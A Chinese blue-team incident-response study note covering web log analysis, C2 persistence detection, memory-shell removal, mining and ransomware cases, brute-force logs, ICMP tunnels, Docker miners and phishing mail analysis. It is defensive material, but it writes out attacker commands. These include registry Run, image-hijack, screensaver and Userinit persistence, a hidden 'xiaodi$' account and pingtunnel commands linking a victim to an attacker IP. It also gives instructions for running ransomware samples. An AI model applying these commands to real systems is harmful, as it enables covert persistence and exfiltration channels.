


# -WEB入侵

### 分析思路

获取当前web环境的组成架构（脚本，数据库，中间件，系统等）

分析思路：

1.利用时间节点筛选日志行为

2.利用可能出现的相关的漏洞的特征筛选日志行为

3.利用后门查杀筛选日志行为：

找到后门文件，就可以看后门文件的时间与名字，在日志文件中查看谁有访问过该文件

4.利用文件修改时间日志行为

5、利用流量捕获设备数据包分析行为

### 日志分析

##### WEB日志分析

明确中间件日志储存路径以及内容细节

IIS，Apache,Tomcat，Nginx等不同中间件的日志功能的配置都不同

##### 数据库日志分析

明确数据库日志储存路径以及内容细节

Mysql,Mssql,Oracle,Postgresql等

### 后门查杀

##### 常见后门查杀

**c2后门**

**工具推荐**

1、阿里伏魔

https://ti.aliyun.com/#/webshell

2、百度WEBDIR+

https://scanner.baidu.com/#/pages/intro

3、河马

https://n.shellpub.com/

4、CloudWalker(牧云)

https://stack.chaitin.com/security-challenge/webshell

5、在线webshell查杀-灭绝师太版

http://tools.bugscaner.com/killwebshell/

6、WebShell Detector WebShell扫描检测器

http://www.shelldetector.com/

7、D盾

http://www.d99net.net

8、各类杀毒

火绒，管家，X60，Defender，Nod32等

9.ATools

安天系统安全内核分析工具

##### 内存马后门查杀

看内存马查杀

### 攻击链分析

- 什么是攻击链分析？

了解何时攻击者使用哪种攻击，哪种技术，哪种漏洞利用，找到攻击利用点

- 思路

1.数据包流量特征

2.工具流量特征指纹

**日志大部分不会存储POST数据包或存储过少，导致无法分析具体行为，而主机可以采用流量捕获设备或防御检测系统抓到攻击流量包，便于分析具体行为**

##### 加密流量包解密工具

https://mp.weixin.qq.com/s/qPGLNtzJFLorTfwIjL29fw

https://mp.weixin.qq.com/s/jTHPVlQA-qROO44-A_lp0w

 还有许多蓝队应急工具都支持

### 处置结果

找到攻击利用点并修复，写出攻击者流程，清理后门并后续溯源等

### 细节优化

0、如何做到Webshell查杀的精准

1、如何做到日志分析效率和准确

2、如何做到流量包分析效率和准确

3、如何做到后续溯源定位效率和准确

4、如何做到应急分析溯源报告的书写


# -C2后门/权限维持技术处置

### 什么是C2后门

一般的执行程序后门在运行时，电脑上可以查到对应的进程信息和外连网络信息

查到之后把该文件上传到威胁感知平台/文件分析平台，然后定性该后门是哪种工具生成的

常见工具：MSF,CS,viper,sliver,vshell,havoc,响尾蛇等

### 常见手法

常规C2后门：

-无隐匿手法

删除文件，防火墙阻止程序或IP域名等

-有隐匿手法

CDN，云函数，中转等（溯源和反制）

### 定性方法

人工分析：数据包流量，文件逆向分析

平台分析：文件 或 记录过的恶意IP

### 权限维持分析检测

常见权限维持手法：自启动，隐藏账户，屏保登录，映像劫持

自启动：用工具（如火绒剑）或手工查询现有启动项

```
自启动测试：
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "backdoor" /t REG_SZ /F /D "C:\shell.exe"
  运行该命令，随后打开火绒剑的启动项检测可以找到名为backdoor路径为c:/shell.exe的启动项
隐藏账户：
net user xiaodi$ xiaodi!@#X123 /add
映像劫持
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe /c calc"
屏保&登录
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "C:\shell.exe" /f
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "C:\shell.exe"
```

### 处置

清理：

结束进程，某些后门可能需要重启后删除或降权删除

封锁：

通过防火墙策略

1.进程名：只能限制名字，对方重命名后上传就无效了

2.网络连接：如封堵ip，根据正反向shell限制入或者出【不灵活】，同时进阶红队可以绕过

3.限制协议

# -内存马查杀




#### 查找内存马

先判断是通过什么方法注入的内存马，可以先查看 web 日志是否有可疑的 web 访问日志，如果是 filter 或者 listener 类型就会有大量 url 请求路径相同参数不同的，或者页面不存在但是返回 200 的，查看是否有类似哥斯拉、冰蝎相同的 url 请求，哥斯拉和冰蝎的内存马注入流量特征与普通 webshell 的流量特征基本吻合。通过查找返回 200 的 url 路径对比 web目录下是否真实存在文件，如不存在大概率为内存马。如在 web 日志中并未发现异常，可以排查是否为中间件漏洞导致代码执行注入内存马，排查中间件的 error.log 日志查看是否有可疑的报错，根据注入时间和方法根据业务使用的组件排查是否可能存在 java 代码执行漏洞以及是否存在过 webshell，排查框架漏洞，反序列化漏洞。

###### 内存马特征

流量中被请求的URL地址路径在源码中不存在

大部分情况是POST请求触发

#### 处置查杀

查杀filter与servlet型可以用查杀脚本

查杀file,servlet,listen,value型内存马可以用GUI项目

查杀大部分内存马可以用阿里巴巴的arthas，但是需要自己审查

##### **查杀脚本**

- 支持JAVAWEB的filter与servlet型内存马查杀

项目地址：https://github.com/c0ny1/java-memshell-scanner

通过jsp脚本扫描并查杀Servlet和Filter内存马，比Java agent要温和一些。

将该脚本上传到目标网站上并访问，会自动进行判断

点击dump下载源代码，点击kill进行删除

##### 查杀项目

- 比较偏向原理审查，可以查杀大部分内存马，但是需要用命令并且自己审查

项目地址：https://github.com/alibaba/arthas

阿里巴巴的工具arthas为一款JAVA监控诊断产品，通过全局视角实时查看应用load、内存、gc、线程的状态信息。可使用该工具对内存马排查和分析，如攻击者隐藏的深可将所有的类都反编译导出来然后逐一排查。

- 使用如果有问题可能与jdk版本有关

详细使用：

`java -jar arthas-boot.jar`  //启动工具

`1`                                       // 输入数字选择java进程开始进行监控

`mbean | grep "name=/"`     //查看URL路由（只能看到Servlet内存马，如果发现地址路径在源码中不存在，说明为内存马，可以详细看小迪2023-220-25分）

`sc *.Filter`

`sc *.Servlet`

``sc *.Value`

。。。。。。等

​         //sc查看JVM 已加载的类信息(根据类名判断，不认识的扔网上搜一下，没有相关信息的可能有问题，如果还是不确定，可以查看这个类的源码进行分析)

jad --source-only 类名         //在线查看类的源码

dump 类名                             //将类的源码下载到本地，为.class文件，反编译即可查看

- 源码可以提取并写到.java文件中提交给微步在线平台进行分析

classloader      //查看classloader的继承树，urls，类加载信息

##### GUI项目

- 支持file,servlet,listen,value型内存马

项目地址：https://github.com/4ra1n/shell-analyzer

实时监控目标JVM，一键反编译分析代码，一键查杀内存马

java -jar gui-0.1.jar        //启动

##### 日志排查

排查日志中被访问但不存在却返回200访问成功的路径，一般恶意内存马还是POST请求

#### 删除

删除的原理就是找到内存马对应的类并删除

# -服务攻击

##### .net网站遭受攻击

可能是IIS搭建的网站，可以通过主机-管理工具-信息服务（IIS）管理器-查看对应网站-日志-查看日志储存目录

##### ThinkPHP网站遭受攻击

日志 一般在服务启动器的目录中的配置文件，如phpstudy_pro/Extensions/Apache2.4.39/logs/access.log

##### Tomcat网站遭受攻击

tomcat9/webapps里可能被上传后门

tomcat9/logs/localhost_access-log里存着日志

##### shiro网站遭受攻击

借助流量设备捕获到数据包，直接看数据包里面的remeber me=.....后面，如果有一大串密文就可以确实是攻击代码，通过工具，如蓝队分析研判工具箱对其中的代码进行解密，然后查看攻击行为

# -挖矿病毒

### 表现：

危害：CPU拉满，网络阻塞，服务器卡顿等

### 工具

挖矿病毒检查工具:

1. Process Hacker:是一款功能丰富的系统进程管理工具。用户只要借助该程序就可以方便，快捷地查看相关进程的速度，内存，及模块等等，另外，还可以对相关的进程进行管理工作。
2. processexplorer：由Sysinternals开发的Windows系统和应用程序监视工具，已并入微软旗下。不仅结合了Filemon(文件监视器)和Regmon(注册表监视器)两个工具的功能，还增加了多项重要的增强功能
3. pchunter:PC Hunter是一个Windows系统信息查看软件，同时也是一个手工杀毒辅助软件
4. 火绒剑

### 分析定性

1.进程找到文件，查看文件配置文件，文件上传威胁情报平台解析分析，看属于哪个家族

2.网络找到外联，将URL域名或ip上传到威胁情报进行解析分析

### 应急处置

1. **排查入口攻击点，阻断异常网络通讯**并进行修补-找到攻击者是借助什么攻击或漏洞进入的

先排查该主机的资产信息，找到可能得被攻击面，考虑WEB，端口服务，内网传染（比如135,3389,445端口同时开放，就可能出现SMP横向移动），用户操作（钓鱼等）等方面，可以从系统日志，WEB日志等入手

​    2.然后**排查重启生效项（启动项，计划计时任务等）**-防止之后再次自动重启，将其清理干净

​    3.**及时隔离主机，阻断异常网络通讯**

### 挖矿病毒行为常见解析

攻击者通过上传执行程序或脚本，一般挖矿病毒成功上传后，常见的行为有如下：

1.清理同行样本 2.下载自己样本  3.样本中写权限维持

```
挖矿病毒的大致运行植入原理：
0、上传执行（怎么造成）
1、攻击者通过上传执行程序或脚本
2、运行程序或脚本，会清理其他同行程序
3、下载的挖掘程序，并写入权限维持技术
```


### 靶场案例

**windows:**     

mp.weixin.qq.com/s/Z789QrPTAopCc7RftAK1QQ

先看任务管理器，发现cpu占用率拉满，在进程中查看，发现xmring占用了百分之八十多的cpu

通过命令netstat -an查看外联情况，发现大量外联，

通过任务管理器找到正在运行的xmring进程打开文件所在位置，查看配置文件config.json,找到其中的域名：auto.c3pool.org，上传到威胁情报平台进行分析,发现是矿池

定性为挖矿病毒

查看系统日志：计算机管理-事件查看器-windows日志-安全，发现大量审核失败事件，通过结合事件id确定为爆破登录，找到被攻击点

接下来进行处置：先用任务管理器结束挖矿程序，发现不过一会再次运行，

则该挖矿程序可能被写入计划任务中，在电脑的任务计划程序中排查计划任务项目，最终发现system.bat有问题，禁用，继续尝试，发现还是会再次运行，

则看看服务项，计算机管理-服务与应用程序-服务，找到c3pool_miner服务，且执行路径指向挖矿病毒路径，关闭该服务，继续尝试，发现成功关闭，cpu占用率回归正常水平。

然后删除挖矿病毒，重启电脑检查CPU占用率，发现挖矿病毒又启动了

查看启动项，发现c3pool，关闭启动项，查看一下用户文件目录c/用户/Administreator/AppData，发现system.bat文件，删除

重启，发现正常

**linux：**

mp.weixin.qq.com/s/OuzkbDRVqeNmH_kgptjwug

查看目录opt/tomcat9/logs/localhost_access_log.2021-02-25.txt，确定为tomcat网站爆破攻击，继续审查日志，发现对方上传文件config.jsp，查看该文件代码，发现为ckinef后门shell

通过top查看系统异常经常，发现sysupdate进程占用CPU比较高

查看进程信息，并查找文件

```
ps -axu | grep 45241
find / -name sysupdate
```


3.结束进程并删除文件

```
kill -9 45241 && rm -rf /etc/sysupdate
```

文件不允许删除


4.查看文件是否加锁

```
lsattr /etc/sysupdate
```


5.解锁文件并删除

```
chattr -i /etc/sysupdate && rm -rf /etc/sysupdat
```


6.恶意进程自启动

等待一会儿发现文件又重新启动


7.查看定时任务

使用`crontab -l`未发现计划任务


8.查看守护进程

```
systemctl status 49349
```


```
find / -name sysguard
```


9.关闭守护进程

```
ps -aux | grep sysguard
kill -9 45267 && rm -rf /etc/sysguard
```


```
ps -aux | grep sysupdate
kill -9 49349 && rm -rf /etc/sysupdate
```


10.查看网络连接

```
netstat -antup
```

发现有大量的外网请求


同时发现该程序占用CPU比较高


11.分析进程信息

```
ps -aux | grep 47585
```


```
systemctl status 47585
```

发现有命令脚本在执行，并执行定时任务


```
find / -name networkservice
```


12.查看脚本文件

其中包含5个文件


13.查看文件均在/etc目录中

```
ls -lat /etc/
```


```
cd /etc
chattr -i update.sh && rm -rf update.sh
chattr -i networkservice && rm -rf networkservice
chattr -i sysupdate && rm -rf sysupdate
chattr -i sysguard && rm -rf sysguard
chattr -i config.json && rm -rf config.json
```


14.结束进程

```
kill -9 47585
```


等待会儿，系统恢复正常


# -勒索病毒

勒索病毒利用各种加密算法对文件进行加密，被感染者一般无法解密，必须拿到私有的秘钥才有可能破解

### 表现

系统瞬时CPU占用高，接近%100，这个现象主要是在批量加密文件

所有应用都无法打开和使用

系统应用文档被加密无法修改

文件后缀被修改并留下勒索信

桌面主题被修改

### 传播方式

 案例分析：[TellYouThePass勒索病毒入侵手法揭秘](https://mp.weixin.qq.com/s/XhZ_cJwbVizll1nQruQqhw)

行为分析：通过钓鱼，WEB服务等手段先进入攻击点，然后进行权限提升，权限维持【免杀】，释放勒索，进一步以肉鸡为本尝试渗透其他主机

### 家族分类

**LockBit：**

LockBit于2019年9月首次以 ABCD勒索软件的形式出现，2021年发布2.0版本，相比第一代，LockBit 2.0号称是世界上最快的加密软件，加密100GB的文件仅需4分半钟。经过多次改进成为当今最多产的勒索软件系列之一。LockBi使用勒索软件即服务 (RaaS)模型，并不断构思新方法以保持领先于竞争对手。它的双重勒索方法也给受害者增加了更大的压力（加密和窃取数据），据作者介绍和情报显示LockBi3.0版本已经诞生，并且成功地勒索了很多企业。

**Gandcrab/Sodinokibi/REvil：**

REvil勒索软件操作，又名Sodinokibi，是一家臭名昭著的勒索软件即服务 (RaaS) 运营商，可能位于独联体国家（假装不是老毛子）。它于 2019 年作为现已解散的 GandCrab 勒索软件的继任者出现，并且是暗网上最多产的勒索软件之一，其附属机构已将目标锁定全球数千家技术公司、托管服务提供商和零售商,一直保持着60家合作商的模式。（2021年暂停止运营，抓了一部分散播者）。

**Dharma/CrySiS/Phobos：**

Dharma勒索软件最早在 2016 年初被发现， 其传播方式主要为 RDP 暴力破解和钓鱼邮件，经研究发现 Phobos勒索软件、CrySiS勒索软件与 Dharma勒索软件有 许多相似之处，故怀疑这几款勒索软件的 作者可能是同一组织。

**Globelmposter（十二生肖）**：

Globelmposter又名十二生肖，十二主神，十二.....他于2017年开始活跃，2019年前后开始对勒索程序进行了大的改版变更。攻击者具有一定的地域划分，比如国内最常见的一个攻击者邮箱为China.Helper@aol.com

**WannaRen（已公开私钥）：**

WannaRen勒索家族的攻击报道最早于2020年4月，通过下载站进行传播，最终在受害者主机上运行，并加密几乎所有文件；同时屏幕会显示带有勒索信息的窗口，要求受害者支付赎金，但WannaRen始终未获得其要求的赎金金额，并于几天后公开密钥。

**Conti**：

Conti勒索家族的攻击最早追踪到2019年，作为"勒索软件即服务（RaaS）"，其幕后运营团伙管理着恶意软件和Tor站点，然后通过招募合作伙伴执行网络漏洞和加密设备。在近期，因为分赃不均，合作伙伴多次反水，直接爆料攻击工具、教学视频、以及部分源代码。

**WannaCry**：

WannaCry（又叫Wanna Decryptor），一种"蠕虫式"的勒索病毒软件，由不法分子利用NSA（National Security Agency，美国国家安全局）泄露的危险漏洞"EternalBlue"（永恒之蓝）进行传播，WannaCry的出现也为勒索病毒开启了新的篇章。

**TellYouThePass**:

TellYouThePass勒索病毒家族最早于2019年3月出现，其热衷于高危漏洞被披露后的短时间内利用1Day漏洞修补的时间差，对暴露于网络上并存在有漏洞的机器发起攻击。

该家族在2023年下半年开始，不断对国内各类OA、财务及Web系统平台发起多轮攻击，同时针对桌面终端和服务器设备，一举成为2023年国内最流行勒索软件家族之一。

其曾经使用过的代表性漏洞有：“永恒之蓝”系列漏洞、Log4j2漏洞、某友NC漏洞、某蝶EAS漏洞、Apache ActiveMQ（CVE-2023-46604）等。

一旦获取攻击成功进入机器，便会投递勒索病毒实施加密，被加密的文件添加后缀名为“.locked”，要求受害者支付一定数量的比特币才能解密文件。

### 分析定性

1.通过加密格式来判断

2.通过桌面的形式来判断

3.通过勒索者的邮箱来判断家族

4.通过勒索者留下的勒索信为例

5.通过微步云沙箱/威胁情报/暗网论坛

### 平台分析

https://lesuobingdu.360.cn/

https://guanjia.qq.com/pr/ls/

https://lesuo.venuseye.com.cn

https://lesuobingdu.qianxin.com/

https://habo.qq.com/tool/index

https://edr.sangfor.com.cn/#/information/ransom_search

已公开解密工具：

https://github.com/jiansiting/Decryption-Tools

https://mp.weixin.qq.com/s/LLqI6qzzkDzpPYJe4SXQCw

### 应急处置

1.分析家族样本

2.有解密就解密

3.没解密找其他渠道（灰色渠道），没办法就重装

4.处置封锁攻击入口（资产排查后封端口，打补丁）

### 靶场案例

不可逆勒索病毒演示：

样本在小迪2023/蓝队技能/216天里

https://mp.weixin.qq.com/s/XhZ_cJwbVizll1nQruQqhw

小迪2023/216/win-WannaCry/勒索软件样本

放到一台虚拟机上，进行解压，关闭火绒剑（这是原版，想绕过火绒剑需要免杀）

解压成功后运行wcry.exe就会开始勒索

此时查看桌面所有文件都会多出后缀.WNCRY，同时弹出了勒索信

通过对这些信息指纹的搜寻，确定为wannancry蠕虫勒索病毒

将被加密的文件放到qax的平台分析中进行分析，结果显示可能是wannanCry家族病毒，同时天擎支持解密，下载解密文件并尝试进行解密，结果失败，说明不是这个家族

到咸鱼上搜索勒索病毒解密，可以掏钱找别人解决 

------

可逆勒索病毒演示：

样本在小迪2023/蓝队技能/216天里：Satan

解压勒索病毒后改后缀为.exe即可使用

一旦运行satan.exe就会开始运行勒索病毒,弹出勒索信，里面有给出交钱的邮箱，去网上以此作为指纹进行搜索，确定为撒旦家族的病毒，在网上可以下载到satan的机密工具，进行解密即可																				

------

linux勒索病毒：GonnaCry

运行GonnaCry-master/src/GonnaCry/bin/gonnacry就会开始勒索【cmd运行，需要一小会时间进行感染】

上传被加密的文件样本至平台进行分析，确定为LuckyJoe家族


# -爆破事件

##### 内外网爆破区别

**外网服务器**

运维设置：密码大部分都是复杂或者会存在策略

rdp,mssql,ssh

**内网服务器**

运维设置：密码大部分都是统一或者会存在简单密码

smb,ftp,mssql

##### Linux SSH

**排查网络状态命令**：

netstat -anpt

**分析日志目录**：

根据不同系统内核，日志存在两个目录

/var/log/auth.log

/var/log/secure

**查看成功登陆**：

cat /var/log/secure | grep "Accept"

**查看失败登陆**：

cat /var/log/secure | grep "Failed password for"

##### windows RDP|SMB

查看**windows事件日志**：windows日志-安全

关注**事件ID**：4624(登录成功)/4625(登录失败)

**登录类型**：2/3/5/10

- wmi不会在日志上留下痕迹

##### windows-MSSQL

**事件日志**：SqlServer服务器-管理-SqlServere日志

##### 爆破定性

根据事件次数的比例定性该事件是否为爆破事件

##### 成功失败

事件ID，关键字提示

##### 日志查看

系统自带的日志，应用的日志

##### 应急处置

拉黑IP,封锁协议，加上防护软件或者安全策略（多次验证就会触发）

# -内网隧道

内网或者不出网的情况下，就需要用到隧道代理技术

##### 定性

**windows**

Microsoft Message Analyzer

以管理员身份运行Microsoft Message Analyzer查看流量，发现异常协议时

Tools-windows-Details-Details 4可查看进程PID

再跳到火绒剑对对应进程ID进行分析

再结合时间

**linux**

wireshark分析流量，根据协议选择对应工具【如ICMP-bpftrace】进行监听，确定进程文件

##### ICMP隧道案例

https://github.com/Just-Hack-For-Fun/request_monitor

https://blog.csdn.net/native_lee/article/details/124751325

现在有受害者主机1【121.40.35.132】和攻击者主机2【121.196.209.235】，现在主机2上执行命令

```
sudo ./pingtunnel -type server -key 1234
使用icmp隧道搭建工具pingtunnel监听，密码为1234
```

然后在主机1上执行命令

```
sudo ./pingtunnel -type client -l :4445 -s 121.196.209.235 -t 121.196.209.235:4444 -tcp 1 -key 1234
在受害者主机上使用隧道搭建工具pingtunnel，封装本地ICMP数据包通过本地4445端口远程对主机1的4444端口建立icmp隧道，密码为1234
```

然后隧道建立成功

此时在受害者主机1上执行命令netstat -anpt查看网络状态，会发现4445端口外连的ip未知

###### 为什么netstat无法查看icmp隧道

```
因为ICMP是底层协议，用网络通讯看网络流量是无法查看的，但是可以通过netstat -anpt查看进程目录
但是可以用wireshark查看icmp协议对应的流量包
```

###### 如何查看ICMP隧道？

在linux受害者主机上的/usr/bin目录下下载软件bpftrace，

```
sudo apt update
sudo apt install bpftrace
chmod +x request_monitor.sh
chmod +x request_monitor.bt
sudo ./request_monitor.sh xx.xx.xx.xx
ps -aux
```

然后执行命令

```
chmod +x /usr/bin/bpftrace
基于该软件执行命令权限
chmod +x request_monitor.sh
chmod +x request_monitor.bt
./request_monitor.sh
监听所有ip的ICMP隧道
```


# -Docker容器



### 危害

Docker拉取的镜像被攻击者拿下，植入后门或挖矿等恶意应用

发现本地cpu拉满，但是找不到进程或者恶意文件的情况下，可能是运行中的虚拟机被拿下了

### 镜像分析

- pmietlicki/xmrig为被拿下的docker的imager名称

使用docker history命令查看指定镜像的创建历史，加上--no-trunc，就可以看到全部信息。

```
docker history pmietlicki/xmrig 
```


使用dfimage从镜像中提取Dockerfile，在这里可以清晰地看到恶意镜像构建的过程

```
alias dfimage="docker run --rm -v /var/run/docker.sock:/var/run/docker.sock alpine/dfimage"
命令重置
  
dfimage -sV=1.36 pmietlicki/xmrig
```


查看镜像的配置信息

```
docker inspect --format='{{json .Config}}' pmietlicki/xmrig
```

 

获取镜像的运行路径

```
docker inspect --format='{{.GraphDriver.Data.LowerDir}}' pmietlicki/xmrig
```


### 处置镜像

查看镜像：docker ps

进入镜像：docker exec -it xxxxx /bin/bash

暂停镜像：docker pause <容器ID>

删除镜像：

docker rm -f <containerId>

docker rmi <IMAGE_NAME>

- 对于非程序的后门连接，还需要使用工具监听docker的网络状态，从而确定哪里存在漏洞

### 漏洞修复

处置完后需要修复docker应用的漏洞

修复推荐使用基线检测工具：

https://github.com/anchore/grype/releases

下载后执行解压命令

```
rpm -ivh grype_0.80.0_linux_amd64.rpm
```

使用时执行命令

```
grype <容器image名称>

grype <image> --scope all-layers        完整扫描
```

**其他工具推荐**

```
https://github.com/aquasecurity/trivy
wget https://github.com/aquasecurity/trivy/releases/download/v0.54.1/trivy_0.54.1_Linux-64bit.deb
sudo dpkg -i trivy_0.54.1_Linux-64bit.deb
trivy image xxx:xxxx
```

### 案例

服务器主机上发现有一个进程Xmrig，占用100cpu，但在主机上的目录中找不到xmrig文件，发现服务器上有docker应用，考虑可能在虚拟机上

**1**.通过top命令查找cpu拉满的被拿下的虚拟机

```
top
```

发现名为xmrig的容器cpu拉满

**2**.查看指定镜像的创建历史，快速筛选出有问题的虚拟机

```
docker ps        查找被拿下的docke容器的image名称
```

```
docker history pmietlicki/xmrig【docker容器的image名称】
加上--no-trunc，就可以看到全部信息。
```

此时会显示该docker容器所以的创建相关的命令执行历史记录

```
通过筛选命令找到存在问题的命令历史记录：
docker history pmietlicki/xmrig | grep xmring【】
```

在命令执行历史中，可以看到恶意文件的执行命令记录

可以发现恶意文件的目录位置：/home/miner/xmrig

**3**使用命令进入docker

```
docker exec -it 43b9299b08b9[dockerid] /bin/bash
```

通过ls和cd命令，发现xmrig恶意文件

**4**.使用ps命令查看当前docker的进程

```
ps
```

发现xmrig，PID为6，使用kill命令删除xmrig进程

```
kill 6
```

**5**.发现cpu占用率仍然拉满，回来查看发现xmrig进程仍然存在

使用exit命令回到主机

```
exit
```

使用dfimage命令查看xmrig容器的构建过程

```cmd
alias dfimage="docker run --rm -v /var/run/docker.sock:/var/run/docker.sock alpine/dfimage"
命令重置
  
dfimage -sV=1.36 pmietlicki/xmrig
```

使用inspect命令查看xmrig容器的配置信息

```cmd
docker inspect --format='{{json .Config}}' pmietlicki/xmrig
```

前两个用于定性，可以发现挖矿的钱包地址

使用inspect命令查看xmrig容器在本机的运行路径

```
docker inspect --format='{{.GraphDriver.Data.LowerDir}}' pmietlicki/xmrig
```

发现了大量路径，在主机中一个个找，直到找到xmrig文件，将其提取样本并传至威胁情报平台进行分析

**6**.删除xmrig文件，kill掉xmrig进程，此时可以发现cpu恢复正常

# -钓鱼攻击

### 钓鱼docx文件

#### 宏

docx文件支持宏，在docx的宏功能中可能存在恶意代码

### 钓鱼邮件

#### 如何分析邮件安全性

导出邮件为EML文件或者查看邮件内容

1、看发信人地址

2、看发信内容信息

3、看发信内容附件

4、查询发信域名反制

- 批量钓鱼邮件工具指纹：通过gophish工具生成的恶意邮件里面有**X-Mailer:gophish**字段

------

#### 官方邮件和钓鱼邮件区别：

1.官方的邮件原文中只会记录一个域名和ip【发送方】，工具生成的往往会有很多重复的多次的其他域名和ip

2.官方的邮件中发件人域名xxx.com和邮件原文的Receiver：from xxxx.com（xxxx.com[xxx.xxx.xxx.xxx]）一般来说应该一致，钓鱼不是，Receiver：from xxxx.com（xxxx.com[xxx.xxx.xxx.xxx]）字段会记录钓鱼者的钓鱼邮箱服务器

如下图：

官方邮件


------


#### **为什么要自己搭建钓鱼邮箱服务器？**

为什么要自己搭建钓鱼邮箱服务器，而不用官方的邮箱去发钓鱼邮件。一方面通过官方的服务器发送的信会受到官方的管控与检测，乱搞容易被拉黑封号，另一方面，官方服务器会记录使用者的个人信息，如果被别人发现这个钓鱼邮件是你发的，很容易就被溯源

#### 邮件原文源码分析

```
参考这几个字段：
X-Mailer:xxxx  泄露工具指纹
Received:xxxx  泄露攻击者远程ip，计算机名
From:xxx       泄露域名
附件

1、看指纹信息（什么发送工具平台）
2、看发送IP地址（服务器IP或攻击IP）
3、根据域名寻找邮件服务器地址(利用红队手段渗透获取信息)
4、可能存在个人的ID昵称用户名（利用社工的技术手段进行画像）
```

当攻击者使用钓鱼工具或平台时，生成的恶意邮件中可能会记录攻击者的一些信息

【比如邮件原内容中不同位置有多个重复的Received：from xxxxx,且有不同，则里面可能会有一个是攻击者的远程ip】

- 邮件信息分析可以从这几点入手

【邮件服务器地址】，

域名【发信人】，

发送本地操作的ip或计算名，

发送内容及附件

拿到敏感信息后放到威胁情报平台进行分析

#### 附件分析

假如解压完或本来为exe文件，对恶意文件的分析有三种思路：

1.逆向分析

2.交给平台对文件进行分析

3.远程运行后人工分析

###### 人工远程靶场运行分析

把恶意样本放到一个安全的靶场/沙箱/虚拟机/远程服务器分析【根据实际情况决定】

先运行该恶意程序，然后配合工具比如ATool进行运行前后对比， 检测多出来的启动项/服务/文件/进程等

配合工具检测来分析恶意程序具体做了什么

eg:

小迪2023第217天，收到一个邮件，里面有附件为Readme.exe，通过前期的邮件原内容审查确定为钓鱼邮件，将附件上传至安全分析平台【掌握逆向的话自己就可以看源码分析，比平台更准确】，查看行为检测，进程分析，确定了该exe文件会进行权限维持，监听上线等行为

假如中招了怎么进行应急？

先打开工具ATool 安天系统安全内核分析工具，将该恶意程序上传至安全分析平台，查看具体行为，确定它会创造smnss.exe,ctfmen.exe，iccvid.dll等程序，通过everything，ATool等工具检测这些进程与服务,ATool查到smnss.exe进行外联，外连ip为139.159.241.57，将该ip上传至威胁情报平台，分析结果显示为广东深圳的一台服务器

平台分析：https://s.threatbook.com/

手工分析：https://mp.weixin.qq.com/s/gFbewpQrWNTnsVpDzI1OQw

大量样本分析文章：https://xz.aliyun.com/u/3314

##### 附件在eml邮件原内容的表示形式

```
-Content-type:xxxxxxxxxx name="附件名字"；type：xxxxx
contnet-Disposition:xxxxx;filename="附件名字"
Content-Transfer-Encoding:附件内容的加密方式
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx[加密后的附件内容]
```

##### 恶意文件武装

对恶意程序文件进行一些技术武装，实现免杀免检测等目的

###### 反检测技术：

不能在虚拟机中运行

###### 反逆向工程

加壳，想进行逆向分析，需要先脱壳

#### 应急处置

1.定性为钓鱼事件：通过威胁情报，人工分析来源，域名，ip来定性

2.定性攻击目的：通过发信人，内容，附件取得突破

3.溯源攻击画像

